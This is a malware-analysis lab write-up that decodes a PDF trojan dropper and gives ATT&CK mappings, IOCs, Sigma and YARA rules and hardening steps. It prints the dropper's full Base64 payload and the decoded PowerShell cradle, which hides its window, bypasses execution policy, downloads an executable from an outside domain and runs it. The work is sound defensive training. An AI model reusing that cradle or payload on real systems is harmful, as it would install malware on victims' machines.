### Step 5: In-Depth Static Analysis of `info.pdf`

#### 1. Cryptographic Hash Fingerprinting (`md5sum`)

Before opening or parsing the file, compute its cryptographic hash to establish chain of custody and query global threat intelligence databases:
```bash
md5sum info.pdf
```



* **Calculated MD5:** `e98b04a9d7092c424ae151e3c83ee302`

---

#### 2. Threat Intelligence Validation (VirusTotal Cloud Scan)

Because the lab network is isolated without direct outbound internet access, query the calculated MD5 hash on [VirusTotal](https://www.virustotal.com/gui/home/search) from an external workstation.



The search results confirm that the sample is an extensively flagged, known malicious trojan dropper:



* **Detections:** Over 40+ security vendors detect the sample.
* **Classifications:** `Trojan.Downloader`, `Trojan.Dropper`, `Trojan.Script.PowerShell`, `PDF/Downloader`.
* **Forensic Verdict:** Malicious trojan dropper abusing PDF document masquerading.

---

#### 3. Base64 Encoded Stream Auditing (`base64dump.py`)

Attackers frequently embed Base64-encoded command strings or shellcode within PDF stream objects to hide scripts from basic pattern scanners. We utilize Didier Stevens' `base64dump.py` utility to parse all Base64 candidate segments:
```bash
base64dump.py info.pdf
```



**Analysis of Stream Table:**
* Multiple small metadata segments are present (IDs 1, 3, etc.).
* **Object ID 2** exhibits a decoded size of **280 bytes**—substantially larger than surrounding artifacts.
* This density strongly indicates embedded functional code or a serialized command payload.

---

#### 4. Decoding & Dissecting Stream Object ID 2

Instruct `base64dump.py` to extract and decode Object ID 2 using the `-s 2` (select object 2) and `-d` (dump/decode) parameters:
```bash
base64dump.py info.pdf -s 2 -d
```



The decoded output reveals an initial command string:
```powershell
powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden -EncodedCommand ...
```

**Key Evasion Flags Identified:**
1. `-ExecutionPolicy bypass`: Overrides the local Windows PowerShell script execution policy (which defaults to `Restricted` or `RemoteSigned`), enabling unsigned script execution.
2. `-noprofile`: Prevents loading the current user's profile scripts (`profile.ps1`), reducing execution overhead and avoiding user-defined security hooks.
3. `-windowstyle hidden`: Prevents the PowerShell interactive console window from appearing on the victim's desktop, concealing execution.
4. `-EncodedCommand`: Signals that the subsequent argument is a Base64-encoded Unicode (UTF-16LE) script block.

---

#### 5. Raw PDF Source Code Inspection with SciTE

To examine how this execution structure is embedded within the document syntax, open `info.pdf` in **SciTE** (Scintilla Text Editor):
```bash
scite info.pdf &
```



Inspecting the file reveals that the PDF does not contain standard formatted document pages, fonts, or text streams. Instead, it contains raw object definitions crafted to trigger Windows command execution:



The full `-EncodedCommand` Base64 payload string embedded within the file:
```
UABvAHcAZQByAFMAaABlAGwAbAAgAC0ARQB4AGUAYwB1AHQAaQBvAG4AUABvAGwAaQBjAHkAIABiAHkAcABhAHMAcwAgAC0AbgBvAHAAcgBvAGYAaQBsAGUAIAAtAHcAaQBuAGQAbwB3AHMAdAB5AGwAZQAgAGgAaQBkAGQAZQBuACAALQBjAG8AbQBtAGEAbgBkACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcAA6AC8ALwBuAGMAZAB1AGcAYQBuAGQAYQAuAG8AcgBnAC8ALgBjAHMAcwAvAGEAdwBvAHIAaQAuAGUAeABlACcALAAdICQAZQBuAHYAOgBBAFAAUABEAEEAVABBAFwAYQB3AG8AcgBpAC4AZQB4AGUAHSApADsAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACgAHSAkAGUAbgB2ADoAQQBQAFAARABBAFQAQQBcAGEAdwBvAHIAaQAuAGUAeABlAB0gKQA=
```

---

#### 6. Deobfuscation & Secondary Payload Extraction (`base64` + `iconv`)

Because Windows PowerShell natively encodes `-EncodedCommand` arguments in **UTF-16 Little Endian (UTF-16LE)**, standard ASCII/UTF-8 decoding will yield null bytes between every character.

We pipe the Base64 string through `base64 -d` and convert the character encoding from `UTF-16` to `UTF-8` using `iconv`:
```bash
echo "UABvAHcAZQByAFMAaABlAGwAbAAgAC0ARQB4AGUAYwB1AHQAaQBvAG4AUABvAGwAaQBjAHkAIABiAHkAcABhAHMAcwAgAC0AbgBvAHAAcgBvAGYAaQBsAGUAIAAtAHcAaQBuAGQAbwB3AHMAdAB5AGwAZQAgAGgAaQBkAGQAZQBuACAALQBjAG8AbQBtAGEAbgBkACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcAA6AC8ALwBuAGMAZAB1AGcAYQBuAGQAYQAuAG8AcgBnAC8ALgBjAHMAcwAvAGEAdwBvAHIAaQAuAGUAeABlACcALAAdICQAZQBuAHYAOgBBAFAAUABEAEEAVABBAFwAYQB3AG8AcgBpAC4AZQB4AGUAHSApADsAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACgAHSAkAGUAbgB2ADoAQQBQAFAARABBAFQAQQBcAGEAdwBvAHIAaQAuAGUAeABlAB0gKQA=" | base64 -d | iconv -f utf-16 -t utf-8
```



**Deobfuscated Script Output:**
```powershell
PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (New-Object System.Net.WebClient).DownloadFile('http://ncdbuganda.org/.css/awori.exe', "$env:APPDATA\awori.exe"); Start-Process ("$env:APPDATA\awori.exe")
```

### 🔍 Deep-Dive Analysis of the Deobfuscated Cradle:

1. **`New-Object System.Net.WebClient`**:
   Instantiates the .NET `WebClient` class within the PowerShell engine, enabling lightweight HTTP file retrieval without launching a full browser process.
2. **`.DownloadFile('http://ncdbuganda.org/.css/awori.exe', "$env:APPDATA\awori.exe")`**:
   * **Target URL:** `http://ncdbuganda.org/.css/awori.exe` — Retrieves the binary payload hidden within a simulated `.css` directory on a compromised domain.
   * **Destination Path:** `$env:APPDATA\awori.exe` — Resolves to `C:\Users\<Username>\AppData\Roaming\awori.exe`. This location is universally writable by standard unprivileged users, avoiding Windows UAC prompts.
3. **`Start-Process ("$env:APPDATA\awori.exe")`**:
   Spawns the newly downloaded executable `awori.exe` as a new child process under the victim's security context.

This confirms with 100% forensic certainty that `info.pdf` is an active **Trojan Dropper** engineered to stage, retrieve, and execute a secondary executable payload.

---

## 🗺️ Comprehensive MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique Name | Forensic Artifact / Implementation Evidence |
|---|---|---|---|
| **Initial Access / Execution** | **T1204.002** | User Execution: Malicious File | Victim lured into opening `info.pdf` masquerading as legitimate documentation. |
| **Defense Evasion** | **T1036.008** | Masquerading: Masquerade File Type | Renaming an executable downloader wrapper to `info.pdf` with simulated document objects. |
| **Defense Evasion** | **T1027** | Obfuscated Files or Information | UTF-16LE Base64 encoding used in `-EncodedCommand` to evade static signature detection. |
| **Execution** | **T1059.001** | Command and Scripting Interpreter: PowerShell | Spawning `powershell.exe` to execute in-memory .NET download cradle routines. |
| **Defense Evasion** | **T1564.003** | Hide Artifacts: Hidden Window | Utilizing `-windowstyle hidden` flag to prevent terminal console visibility. |
| **Command and Control** | **T1105** | Ingress Tool Transfer | Utilizing .NET `WebClient.DownloadFile` to retrieve external executable `awori.exe`. |
| **Execution** | **T1106** | Native API / Process Spawning | Calling `Start-Process` to execute the downloaded payload `%APPDATA%\awori.exe`. |

---

## 📌 Extracted Indicators of Compromise (IOCs)

| IOC Type | Indicator Value | Forensic Context & Description |
|---|---|---|
| **File Name** | `info.pdf` | Weaponized PDF trojan dropper document |
| **File Name** | `info.zip` | Archive delivery container |
| **MD5 Hash** | `e98b04a9d7092c424ae151e3c83ee302` | Cryptographic hash of `info.pdf` |
| **C2 URL** | `http://ncdbuganda.org/.css/awori.exe` | Staging URL hosting the secondary executable payload |
| **C2 Domain** | `ncdbuganda.org` | Compromised host / adversary C2 infrastructure |
| **Dropped File** | `%APPDATA%\awori.exe` | Destination on-disk path for secondary malicious binary |
| **Dropped File** | `awori.exe` | Secondary payload executable name |
| **Process Command** | `powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden -command ...` | Initial dropper command string executed upon trigger |

---

## 🛡️ Defensive Engineering, Sigma Rules & YARA Signatures

### 1. Sigma Detection Rule: Suspicious PDF Child Process Spawning PowerShell Cradle
```yaml
title: PDF Application Spawning Suspicious PowerShell Download Cradle
id: 8c1e4d3a-2f4b-4a5e-9e7b-12d8a0c4f3e2
status: production
description: Detects PDF viewer or document process spawning PowerShell with bypass flags and network download cradles.
references:
    - https://my.ine.com/course/malware-analysis-for-soc-analysts/2eabbb8c-ca60-4626-8953-c7af35401960/lab/b51b25bd-3017-46e8-ae66-f89022dc7fe6
author: Syntrix SOC Defense Operations
date: 2026/10/16
logsource:
    category: process_creation
    product: windows
detection:
    selection_parent:
        ParentImage|endswith:
            - '\AcroRd32.exe'
            - '\Acrobat.exe'
            - '\FoxitReader.exe'
            - '\PDFXCview.exe'
    selection_child:
        Image|endswith: '\powershell.exe'
        CommandLine|contains:
            - '-ExecutionPolicy bypass'
            - '-windowstyle hidden'
            - '-EncodedCommand'
            - 'DownloadFile'
            - 'Start-Process'
    condition: selection_parent and selection_child
fields:
    - ComputerName
    - User
    - ParentImage
    - Image
    - CommandLine
falsepositives:
    - Rare administrative maintenance scripts triggered from specialized document indexing tools
level: high
tags:
    - attack.execution
    - attack.t1059.001
    - attack.defense_evasion
    - attack.t1036.008
    - attack.t1105
```

---

### 2. YARA Rule: Weaponized PDF with Embedded PowerShell Cradle
```yara
rule Suspicious_PDF_PowerShell_Dropper {
    meta:
        description = "Detects PDF documents containing embedded PowerShell launch sequences and Base64 encoded commands"
        author = "Syntrix SOC Team"
        date = "2026-10-16"
        reference = "INE Security - Malware Analysis: Trojan"
        hash = "e98b04a9d7092c424ae151e3c83ee302"
        score = 85

    strings:
        $pdf_magic = "%PDF-"
        $ps_cmd = "powershell" nocase
        $bypass = "-ExecutionPolicy bypass" nocase
        $hidden = "-windowstyle hidden" nocase
        $enc = "-EncodedCommand" nocase
        $webclient = "DownloadFile" nocase
        $b64_ps = "UABvAHcAZQByAFMAaABlAGwAbAA" ascii wide

    condition:
        $pdf_magic at 0 and
        ($ps_cmd and ($bypass or $hidden or $enc or $b64_ps)) or
        (2 of ($bypass, $hidden, $enc, $webclient))
}
```

---

### 3. Enterprise Hardening & Prevention Measures:
1. **Attack Surface Reduction (ASR) Rules:**
   * Enable `Block Adobe Reader from creating child processes` (`D4F940AB-401B-4EFC-AADC-AD5F3C50688A`).
   * Enable `Block executable content from email client and webmail` (`BE9B3015-B315-460C-92EB-DD61A60760E9`).
2. **PowerShell Constrained Language Mode (CLM):**
   * Enforce PowerShell Constrained Language Mode via AppLocker or Windows Defender Application Control (WDAC) to prevent arbitrary .NET class instantiations (`New-Object System.Net.WebClient`).
3. **AppLocker / Software Restriction Policies:**
   * Prohibit execution of binaries directly out of `%APPDATA%`, `%TEMP%`, and `C:\Users\*\AppData\Local\Temp`. Legitimate software installers must run from validated program directories.
4. **Proxy & DNS Filtering:**
   * Block requests to unclassified or newly observed domains containing executable extensions (`.exe`, `.scr`, `.bat`) disguised in non-executable paths (`/.css/`, `/.js/`).

---

## 🎯 Conclusion & Key Takeaways

1. **Appearance is Deceptive:** A file bearing a `.pdf` extension can easily conceal malicious executable scripts within raw stream objects if host operating system file associations or document parsers are improperly configured.
2. **Static Triage Prevents Detonation:** By relying on `md5sum`, `base64dump.py`, `iconv`, and text editors within an isolated REMnux container, analysts can extract full C2 indicators, drop paths, and secondary payloads without executing code on sensitive corporate assets.
3. **PowerShell `-EncodedCommand` is Transparent:** Obfuscated Base64 strings in UTF-16LE format provide zero genuine cryptographic confidentiality; they can be instantly deobfuscated using standard command-line tools.
4. **Layered Defense Neutralizes Droppers:** Combining ASR child-process rules, Constrained Language Mode, and execution restrictions on user `%APPDATA%` directories renders this entire class of dropper attack completely ineffective.

---

## 📚 References & Threat Intelligence Resources

* [INE Security — Malware Analysis for SOC Analysts](https://my.ine.com/course/malware-analysis-for-soc-analysts/2eabbb8c-ca60-4626-8953-c7af35401960/lab/b51b25bd-3017-46e8-ae66-f89022dc7fe6)
* [REMnux — A Linux Toolkit for Reverse-Engineering and Analyzing Malware](https://remnux.org/)
* [Didier Stevens Tools — base64dump.py](https://blog.didierstevens.com/programs/base64dump-py/)
* [MITRE ATT&CK Technique T1036.008 — Masquerading: Masquerade File Type](https://attack.mitre.org/techniques/T1036/008/)
* [MITRE ATT&CK Technique T1027 — Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027/)
* [MITRE ATT&CK Technique T1059.001 — Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)
* [MITRE ATT&CK Technique T1105 — Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)
* [Microsoft Defender for Endpoint — Attack Surface Reduction (ASR) Rules Reference](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference)
